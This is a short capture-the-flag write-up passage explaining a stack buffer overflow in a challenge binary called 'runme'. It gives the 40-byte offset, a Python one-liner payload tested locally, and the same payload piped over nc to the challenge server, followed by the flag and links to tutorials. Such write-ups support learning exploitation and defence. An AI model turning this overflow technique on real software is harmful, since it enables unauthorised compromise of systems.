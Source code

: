It's very clear now that we just need to overflow the buffer of local_38 in order to change the initialization of local_10. To do this, the offset was `40` and we add the hex value that `local_10` is being checked for. Anyway.

testing:
I had set up a flag.txt file that just read "opened flag.txt", which was used to confirm that the exploit worked. 
```
$ chmod +x runme
$ python -c "print 'A'*40+'\xe5\x55\xce\xac'" > temp
$ ./runme < temp
opened flag.txt
```


exploit:
```
python -c "print 'A'*40+'\xe5\x55\xce\xac'" | nc imaginary.ml 10006
```

Flag: `flag{0v3rwr1t1ng_4_v4r1abl3?_c00l!}`

Resources used for runme:
- [0xRICK's intro to buffer overflows](https://0xrick.github.io/binary-exploitation/bof1/)
- [Hacktober CTF Writeup](https://veteransec.com/2018/10/19/hacktober-ctf-2018-binary-analysis-larry/)
- [StackOverflow on reading input](https://stackoverflow.com/questions/16508817/how-do-i-provide-input-to-a-c-program-from-bash)
- [Online Disassembler](https://onlinedisassembler.com/odaweb/)
- [Install Ghidra on Kali Linux](https://executeatwill.com/2019/04/04/Install-Ghidra-on-Kali-Linux/) ([+tutorial](https://www.youtube.com/watch?v=fTGTnrgjuGA))
- [kgbuquerin's video on a similar exploit](https://www.youtube.com/watch?v=C-k516BHPl8)

